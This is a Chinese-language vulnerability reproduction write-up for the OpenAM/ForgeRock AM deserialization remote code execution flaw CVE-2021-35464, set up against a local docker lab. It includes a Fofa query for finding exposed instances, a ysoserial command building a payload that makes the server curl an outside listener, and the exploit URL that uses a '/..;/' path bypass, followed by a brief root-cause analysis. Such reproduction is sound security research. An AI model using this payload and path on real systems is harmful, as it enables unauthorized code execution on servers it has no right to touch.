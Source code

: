 # OpenAM / ForgeRock AM远程代码执行漏洞（CVE-2021-35464）

## Fofa

```
app="OpenAM"
```

## 环境搭建

```
docker-compose up -d
```

## 复现过程

- 配置OpenAM

访问 http://127.0.0.1:9999/openam，使用默认配置，配置后页面如下

![1.png](1.png)

- 本地开启http server，监听 5555 端口

```
python -m SimpleHTTPServer 5555
```

- 使用 ysoserial.jar 生成payload

```
java -jar ysoserial.jar Click1 "curl http://10.68.63.72:5555" | (echo -ne \\x00 && cat) | base64 | tr '/+' '_-' | tr -d '='
```

P.S. 请下载最新的ysoserial.jar，不然没有 Click1 这个利用链

- 使用生成的payload进行攻击

```
http:127.0.0.1:9999/openam/oauth2/..;/ccversion/Version?jato.pageSession=<payload>
```

http server成功收到请求，RCE成功

![2.png](2.png)

## 漏洞简析

### OpenAM 和 ForgeRock AM 关系

OpenAM是开源版本的ForgeRock AM

### 简析

OpenAM集成了jato Web框架（2017年已停止更新），jato中存在一处反序列化利用点。OpenAM中有几处jato的路径可以未授权访问，导致可以通过这些入口，传入恶意的反序列化payload，造成反序列化RCE

注意到Poc中有个`/..;/`，因为路由只接受 /openam/oauth2 path，所以通过tomcat的特性绕过这个限制，路由看到的是/openam/oauth2，实际请求的是/openam/ccversion。
